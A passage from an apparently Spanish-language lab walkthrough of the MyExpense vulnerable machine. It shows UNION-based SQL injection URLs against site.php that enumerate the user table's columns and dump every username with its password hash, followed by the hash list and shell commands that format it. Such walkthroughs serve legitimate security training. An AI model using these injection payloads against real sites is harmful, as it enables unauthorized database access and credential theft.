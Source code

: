 Listamos columnas de la tabla `user`:  
`http://192.168.1.54/site.php?id=-1 UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='myexpense' and table_name='user'-- -`  
→ Vemos:  
`1 (user_id,username,password,role,lastname,firstname,site_id,mail,manager_id,last_connection,active)`

---

### 22º Acceso como usuario de finanzas --> Inyección SQL parte 5

**Acción:**  
Volcamos los usuarios y contraseñas (hasheadas):  
`http://192.168.1.54/site.php?id=-1 UNION SELECT 1,group_concat(username,0x3a,password) from user-- -`  
→ Resultado:

```

afoulon:124922b5d61dd31177ec83719ef8110a pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a rlefrancois:ef0dafa5f531b54bf1f09592df1cd110 mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc mnguyen:f7111a83d50584e3f91d85c3db710708 pgervais:2ba907839d9b2d94be46aa27cec150e5 placombe:04d1634c2bfffa62386da699bb79f191 triou:6c26031f0e0859a5716a27d2902585c7 broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27 brenaud:2204079caddd265cedb20d661e35ddc9 slamotte:21989af1d818ad73741dfdbef642b28f nthomas:a085d095e552db5d0ea9c455b4e99a30 vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3 rmasson:ebfc0985501fee33b9ff2f2734011882 AAAprueba:014436b6640304b2cfad8a43f4aaad1a AAAAAhakacking:6b350ab604ed7b2332c69e73e01f97f7

````

**Explicación:**  
Se trata de un volcado de todos los usuarios y sus contraseñas (en hash). Para trabajar con ello y hacer la lectura más cómoda, usamos:

```bash
echo "afoulon:124922b5d61dd31177ec83719ef8110a,pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a,..." | tr ',' '\n' | column -t -s ':'
````

```bash
echo "afoulon:124922b5d61dd31177ec83719ef8110a,pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a,rlefrancois:ef0dafa5f531b54bf1f09592df1cd110,mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc,mnguyen:f7111a83d50584e3f91d85c3db710708,pgervais:2ba907839d9b2d94be46aa27cec150e5,placombe:04d1634c2bfffa62386da699bb79f191,triou:6c26031f0e0859a5716a27d2902585c7,broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27,brenaud:2204079caddd265cedb20d661e35ddc9,slamotte:21989af1d818ad73741dfdbef642b28f,nthomas:a085d095e552db5d0ea9c455b4e99a30,vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3,rmasson:ebfc0985501fee33b9ff2f2734011882,AAAprueba:014436b6640304b2cfad8a43f4aaad1a,AAAAAhakacking:6b350ab604ed7b2332c69e73e01f97f7
" | tr ',' '\n'
```

```
afoulon         124922b5d61dd31177ec83719ef8110a
pbaudouin       64202ddd5fdea4cc5c2f856efef36e1a
rlefrancois     ef0dafa5f531b54bf1f09592df1cd110
mriviere        d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen         f7111a83d50584e3f91d85c3db710708
pgervais        2ba907839d9b2d94be46aa27cec150e5
placombe        04d1634c2bfffa62386da699bb79f191
triou           6c26031f0e0859a5716a27d2902585c7
broy            b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud         2204079caddd265cedb20d661e35ddc9
slamotte        21989af1d818ad73741dfdbef642b28f
nthomas         a085d095e552db5d0ea9c455b4e99a30
vhoffmann       ba79ca77fe7b216c3e32b37824a20ef3
rmasson         ebfc0985501fee33b9ff2f2734011882
AAAprueba       014436b6640304b2cfad8a43f4aaad1a
AAAAAhakacking  6b350ab604ed7b2332c69e73e01f97f7
```
